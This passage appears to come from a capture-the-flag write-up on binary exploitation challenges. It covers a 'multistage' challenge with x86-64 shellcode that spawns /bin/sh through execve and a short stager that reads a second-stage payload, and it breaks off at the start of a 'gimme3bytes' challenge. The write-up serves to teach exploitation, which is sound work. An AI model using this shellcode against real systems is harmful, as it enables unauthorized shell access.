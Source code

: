 This means that when the code will be run it will first pass the check, and then correct itself to execute `syscall` as last assembly instruction.

### multistage

**Hint**: the challenge name means that we'll probably need a two step exploit for some reason. In this case the problem is the following:

```c
  puts("What is your name?");
  read(0,buffer,20);
```

Which means that we need an exploit no longer than 20 bytes. The following is a valid (but still too long) shellcode:

```assembly
mov rdi, 0x404070+26    ; we store this address (which is a pointer to 'bin/sh\0') in rdi
mov rsi, rdi
add rsi, 8              ; we move the pointer after the bin/sh
mov rdx, rsi
mov rax, 0x3b
syscall
/bin/sh\x00             ; since we are in a read, we can write directly the string
                        ; in the stack.
```

Length: (26 bytes of shellcode +8 of `/bin/sh\x00`) > 20.

**Solution**: execute another `read`, which reads more byte into the `buffer` global variable, in which we will put the `execve` call to spawn a shell:

```assembly
xor rdi, rdi        ; we are reading from stdin
mov rdx, 128        ; how much to read    
mov esi, eax        ; address of where to read, which is at the end of this shellcode
add eax, 0x14
xor rax,rax            ; read syscall
syscall
```

**Note**: `mov` takes up a lot more bytes than `xor`.

We can also put 20 `nop` at the beginning of our shellcode instead of putting `rax+20` in the `rdx` register, and try to shorten even more our shellcode:

```assembly
xor rax, rax
mov rdi, rax
mov esi, 0x404070
mov edx, 0x100        
syscall
```

### gimme3bytes

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <stdio.h>

int main(){
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
```